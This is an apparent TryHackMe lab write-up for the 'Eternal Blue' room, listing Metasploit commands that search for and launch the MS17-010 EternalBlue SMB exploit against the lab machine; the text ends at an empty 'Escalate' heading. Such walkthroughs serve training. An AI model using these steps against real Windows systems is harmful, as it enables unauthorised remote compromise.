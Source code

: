 # Eternal Blue Room - TryHackMe

## Task 2 - Gain Access

- Initiate metasploit -> `msfconsole`

- Search for vulnerability -> `search ms17-010`
- Solution -> `exploit/windows/smb/ms17_010_eternalblue`

- Select the exploit that we discover before -> use exploit/xxx
- Run the command -> `show options`
- Solution -> Missing required param `RHOSTS`
- Set the variable -> `set RHOSTS $MACHINE_IP`

- Run the `exploit`

## Task 3 - Escalate
